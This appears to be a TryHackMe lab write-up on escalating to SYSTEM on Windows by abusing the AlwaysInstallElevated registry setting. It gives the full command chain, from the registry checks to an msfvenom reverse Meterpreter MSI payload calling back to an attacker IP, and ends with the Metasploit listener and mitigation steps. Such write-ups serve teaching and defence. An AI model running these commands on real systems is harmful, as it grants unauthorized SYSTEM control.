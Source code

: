 
---
title: "Exploiting AlwaysInstallElevated for Windows Privilege Escalation"
date: 2025-05-06
categories: [Privilege Escalation, Windows, TryHackMe]
tags: [windows, privilege-escalation, alwaysinstallelevated, msfvenom, metasploit, pentesting, tryhackme]
excerpt: "A walkthrough of exploiting the AlwaysInstallElevated misconfiguration on Windows to escalate from user to SYSTEM using a malicious MSI payload."
---

## 🧠 Summary

In this walkthrough, I exploited the **AlwaysInstallElevated** privilege escalation technique on a vulnerable Windows machine. When both `HKLM` and `HKCU` registry keys for AlwaysInstallElevated are set to `1`, any `.msi` file executed by a standard user will run with SYSTEM-level privileges. Below is a step-by-step breakdown of how I leveraged this misconfiguration to gain SYSTEM access.

---

## 🔍 Step 1: Confirming Registry Vulnerability

After gaining initial access to the target machine, I checked the registry for AlwaysInstallElevated values:

```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-d0217aef-d8d1-4180-a572-0d7d963fee57.png" alt="AlwaysInstallElevated Registry Settings">
  <figcaption>Registry keys confirming AlwaysInstallElevated is enabled</figcaption>
</figure>

Both were set to `0x1`, confirming the system is vulnerable.

---

## 💣 Step 2: Creating a Malicious MSI Payload

On my Kali attack box, I generated a reverse Meterpreter payload in MSI format using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.119.123 -f msi -o setup.msi
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-dac45580-fd7a-43ff-9608-5d0cf761fd66.png" alt="Generating malicious MSI payload">
  <figcaption>MSFVenom command to generate the setup.msi payload</figcaption>
</figure>

---

## 🌐 Step 3: Hosting the Payload

I used Python to host the `.msi` file over HTTP:

```bash
python3 -m http.server 80
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-fc733b2c-6bb8-4e76-b2db-65a506a5c996.png" alt="Payload served over HTTP">
  <figcaption>HTTP server log showing the victim downloading setup.msi</figcaption>
</figure>

---

## 📥 Step 4: Downloading and Executing on Victim Machine

On the victim machine, I opened Internet Explorer and navigated to the Kali host IP to download the payload.

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-aaf86794-c15e-416d-b8e4-30828288e1e4.png" alt="Browsing to download the payload">
</figure>

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-b6d18942-bad8-4e4d-904c-a554c1eb73dd.png" alt="Setup.msi file download prompt">
  <figcaption>Payload download via Internet Explorer</figcaption>
</figure>

---

## 🧠 Step 5: Listener Setup and Shell Access

On my Kali box, I launched a Metasploit listener to catch the reverse shell:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.2.119.123
run
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-cc623f40-4eaa-41ab-aae5-46350e83e3fe.png" alt="Meterpreter SYSTEM shell">
  <figcaption>Confirmed SYSTEM-level Meterpreter shell from payload execution</figcaption>
</figure>

The payload executed with SYSTEM privileges, as confirmed by the `getuid` command.

---

## 🛡️ Mitigation

To prevent this type of privilege escalation:
- Set `AlwaysInstallElevated` to `0` in both `HKLM` and `HKCU`:
  ```
  reg add HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
  reg add HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
  ```
- Restrict user ability to run `.msi` installers
- Use endpoint monitoring to alert on privilege escalations

---

## 🔗 MITRE ATT&CK Mapping

- **T1548.002 – Abuse Elevation Control Mechanism: Bypass User Access Control**

---

✅ **Success**: I escalated from user to SYSTEM by abusing AlwaysInstallElevated and a malicious MSI payload. Always validate registry settings during post-exploitation recon!

Stay sharp, and happy hacking! 🛠️
